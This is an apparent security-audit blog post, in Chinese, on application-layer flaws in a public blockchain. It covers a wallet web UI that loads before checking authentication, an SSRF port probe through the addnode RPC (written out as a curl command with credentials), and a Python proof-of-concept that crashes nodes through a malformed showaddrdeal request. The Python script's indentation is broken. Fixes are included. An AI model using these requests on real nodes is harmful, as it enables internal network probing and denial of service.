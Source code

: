 

# 公链自身的应用层漏洞案例浅析 - 先知社区

公链自身的应用层漏洞案例浅析

- - -

## 文章前言

随着区块链技术的快速发展和广泛应用，公链上的应用程序也变得越来越多，然而与传统的应用程序一样，公链自身应用层也面临着各种安全问题和漏洞，公链应用层漏洞是指在公链上开发的应用程序中存在的安全漏洞和弱点，这些漏洞可能会导致恶意攻击者利用系统的弱点进行各种攻击，例如：盗取用户资金、篡改数据、执行恶意合约等，在本文中我们将以几个常见的公链应用层漏洞类型进行介绍并提供简单的示例和说明

## 攻防案例

### WEB UI 访问控制

#### 基本介绍

公链前端 Web UI(用户界面) 是公链应用层中的一个重要组成部分，它提供了用户与公链应用程序进行交互的界面，公链前端 Web UI 通常以网页形式呈现，用户可以通过网页浏览器访问和操作公链应用

#### 主要功能

公链前端 Web UI 的功能包括但不限于以下几个方面：

-   用户账户管理：公链前端 Web UI 允许用户创建、导入和管理他们的账户，用户可以生成公私钥对、设置密码、备份和恢复账户等操作
-   资产查看和转账：公链前端 Web UI 显示用户的资产余额和交易历史，用户可以查看他们的数字货币余额，执行转账操作，发送和接收数字货币
-   智能合约交互：公链前端 Web UI 提供与智能合约进行交互的功能，用户可以通过界面调用智能合约的方法、查看合约状态和执行合约交易
-   交易历史和区块浏览：公链前端 Web UI 显示公链上的交易历史和区块信息，用户可以查看特定交易的详情，浏览最新的区块和区块链的状态
-   用户身份验证和安全性：公链前端 Web UI 提供用户身份验证和安全性措施，确保用户的账户和交易信息的安全，这可能包括密码加密、双重身份验证等安全功能

#### 审计示例

在对某公链进行安全审计时发现公链提供了 web UI 交互式界面，遂对 web 界面的安全性进行了黑盒测试，发现未进行身份认证的用户在点击相关功能模块时会优先跳转到该功能模块，之后才会判断当前用户是否已经通过身份认证，如果没有通过会跳转到登录认证页面，同时部分接口存在访问控制缺陷，攻击者可以通过 burpsuite 让页面优先停留在功能模块页面之后通过调用相关接口来查看敏感信息或者执行敏感操作，下面以 wallet 为例做说明：  
对源代码进行跟踪分析发现，在源代码中的 app.controllers.js 文件中有一个用于监听页面更改的逻辑设计，但是在这里页面的更新却先于判断用户是否通过认证的逻辑，存在设计缺陷，具体代码如下：  
[![](assets/1706771821-0d14ece9a6aabc5d90d0c3c1af13a482.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105225-6eb933c2-be51-1.png)  
wallet.controller.js 逻辑设计

[![](assets/1706771821-b8b76745d5a17ab5ba03d2b7c41c1267.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105243-799a447a-be51-1.png)  
之后对 WalletCtrl 进行了跟踪分析，在 WalletController 类中发现对于钱包的各种操作（创建地址账户、删除地址账户、导入地址账户、获取钱包信息等）接口在调用之前未对调用者身份进行认证：  
walletControaller 处理逻辑：  
[![](assets/1706771821-496ff8b8bb2214f6f605ce702373519d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105301-8481b422-be51-1.png)  
walletService 处理逻辑  
[![](assets/1706771821-75515c8badd5a401e029803b5d5337ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105318-8e663396-be51-1.png)

未认证的用户点击“wallet”选项会先进入 wallet 界面后跳转至认证页面：  
[![](assets/1706771821-fe3403006e597b7f26e96be6c51c97a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104126-e60f44c2-be4f-1.png)

之后可以好看到钱包的地址账户信息

[![](assets/1706771821-70023e5ae8451d3d5d5016fae7a4fc8c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104328-2e9adddc-be50-1.png)  
之后点击“删除账号，在新弹出的框汇总点击"确认"

[![](assets/1706771821-12fb1dfa5226ac318a5ce4f9c6059aa8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104401-4235418e-be50-1.png)

之后account#10账号成功删除：  
[![](assets/1706771821-3abac757129842303e06e1717a1ce81c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104836-e63f31ae-be50-1.png)  
如果攻击者可以物理接触并获取到 seed phrase 则可以本地 web 实现转账，无视这里的认证

[![](assets/1706771821-bb904c4c114f3981fd23d01a64a1f817.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105000-18138b94-be51-1.png)

同时可以创建账号：

[![](assets/1706771821-8820ef3a99cd146061e442c42a76db2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105033-2bd32bb2-be51-1.png)  
也可以查看新建的地址账户：

[![](assets/1706771821-08f25b285ba340e93a99b2f09e6b625f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105136-51ab4630-be51-1.png)

### 添加节点处 SSRF

#### 风险说明

当公链允许 RPC 远程调用，且无需认证或认证口令较弱可以通过爆破的方式进行破解的情况下，攻击者可以利用 RPC 远程“添加节点”的功能进行 SSRF 攻击，例如通过对特定的 IP 地址和端口组合结合服务器端响应的时间（端口开放则妙级响应，端口未开放则超时 5s 响应）探测服务器端私有 IP 地址的端口开放情况，用于后续攻击测试

#### 漏洞详情

在添加节点 RPC 接口处未对目标 IP 地址作限制，攻击者可通过构造特定的 IP 地址和端口组合并结合服务端响应时间探测服务端私有 IP 的端口开放情况，用于进一步攻击。  
addnode 逻辑设计：

[![](assets/1706771821-c644e406b9581f9b3e2c24bb8e624208.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105531-ddb176fe-be51-1.png)  
请求测试参数

```bash
curl --user rubyrpc:BbaEZMi9kbzi9ptK8jNsEKVQUxrQbdVf9ZhUrakoQ8yC --data-binary '{"jsonrpc": "2.0", "id":"rpcaddnode", "method": "addnode", "configs": ["127.0.0.1:6379", "onetry"] }' -H 'content-type: text/plain;' http://192.168.11.192:5112
{"result":null,"error":null,"id":"rpcaddnode"}
```

[![](assets/1706771821-59e129e7a4cdda94f70a0d0556486020.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105552-e9e37666-be51-1.png)  
节点端开启的端口监听成功捕获到请求源：

[![](assets/1706771821-4c36e6cc4f5e17b9ec961d167a0e8e12.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105603-f0e12008-be51-1.png)

#### 防御措施

校验目标节点 IP 地址，防止添加本地循环地址被攻击者用于恶意探测本地开放端口服务，同时远程 RPC 调用时进行身份认证

### RPC 参数畸形请求导致 DDOS

#### 基本介绍

公链 RPC(远程过程调用) 接口是公链提供的一种方式，允许外部应用程序通过网络与公链进行通信和交互，RPC 接口提供了一组命令和方法，允许开发者查询和操作公链的状态、执行交易、访问智能合约等功能

#### 漏洞简介

之前在做一个公链审计的时候，发现一个有趣的现象，当用户调用 Showaddrdeal 来查看 address，txid 等详细交易信息时，如果传入的 address 为根节点或者传入的 txid 不存在、为空、非法都会导致根节点直接 Crash，很是有意思，后期发现是因为后端未做合法性校验导致的  
showaddrdeal 逻辑：

[![](assets/1706771821-ed6527034b02bc0de6af57b6726d1fce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105913-61f3749e-be52-1.png)  
测试脚本：

```bash
#!/usr/bin/env python3
from gevent import pool,monkey
monkey.patch_all()
import requests

def exp():
    URL = "http://192.168.11.192:5112"
    data = {
        "jsonrpc": "2.0",
        "method": "showaddrdeal",
        "configs":["18qNoDvvfNgCFa29rNVvvM3ZKi1MpsgSZZQUiJ",""],
        "id":"rpcshowaddrdeal"
   }
   s = requests.session()
   s.auth = ('xxxrpc','BbaEZMi9kbzi9ptK8jNsEKVQUxrQbdVf9ZhUrakoQ8yC')
   response = s.post(url=URL,json=data)
   print(response.json())
def run():
   p = pool.Pool()
   for i in range(1):
      p.apply_async(exp)
      p.join()
if __name__ == '__main__':
   run()
```

运行脚本后：

[![](assets/1706771821-300af5dc8743ab72c4cc43ed36010867.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105956-7b603c82-be52-1.png)

之后远程 RPC 无法正常调用，被拒绝连接：

[![](assets/1706771821-8e41be7515351179a51d63a4779abf46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129110013-8595f2b4-be52-1.png)

#### 修复方法

下面的修复方法是经过后期与客户商议之后一起总结的，后期发现客户的修复没有问题，再次测试未出现相关安全问题：  
showaddrdeal 新增验证参数为空的验证：

[![](assets/1706771821-1f1f6f0ddcd74252b4283e78320a83cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129110045-99018354-be52-1.png)

## 文末小结

本篇文章简单的介绍了一下公链应用层方面的几个安全漏洞示例，主要包括了 WEB UI 的安全、RPC 接口的安全等，从公链源代码进行了简易的刨析，当然公链中还有很多的应用层面的漏洞值得大家去思考和挖掘，例如：RCP 的其他安全问题 (DOS、鉴权错误、未授权等)、Geth 的安全问题、安全策略问题等等
